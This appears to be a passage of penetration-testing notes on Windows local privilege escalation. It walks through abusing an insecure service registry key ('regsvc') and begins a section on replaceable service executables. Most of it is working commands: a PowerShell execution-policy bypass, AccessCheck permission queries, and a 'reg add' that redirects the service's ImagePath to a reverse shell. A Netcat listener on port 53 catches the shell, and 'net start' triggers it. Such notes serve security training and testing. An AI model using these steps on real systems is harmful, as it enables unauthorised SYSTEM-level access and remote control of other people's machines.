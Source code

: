 1. Load PowerShell or AccessCheck

```
powershell -exec bypass
```

2\. Get-ACL

```
Get-Acl HKLM\system\currentcontrolset\services\regsvc | Format-List
```

3\. Access Check

```
.\accesschk.exe \accepteula -uvwqk HKLM\system\currentcontrolset\services\regsvc
```

4\. Can we start the service?

```
.\accesschk.exe /accepteula -ucqv user regsvc
```

5\. Query the registry

```
reg query HKLM\system\currentcontrolset\services\regsvc

ImagePath    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
```

6\. Modify the registry and add a reverse shell to the ImagePath (this has the same effect as modifying binpath).

```
reg add HKLM\system\currentcontrolset\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\..\reverse.exe /f
```

7\. Fire up a Netcat listener on Kali to catch shell

```
nc -lnvp 53
```

8\. Start the service to trigger the reverse shell

```
net start regsvc
```

### Insecure Service Executables

If the original service executable is modifiable by our user, we can simply replace it with a reverse shell executable.

<mark style="color:yellow;">IF USING ON A REAL SYSTEM: Create a backup of the original executable upon exploitation.</mark>

How to detect:

1. Verify that there is a service executable using WinPEAS
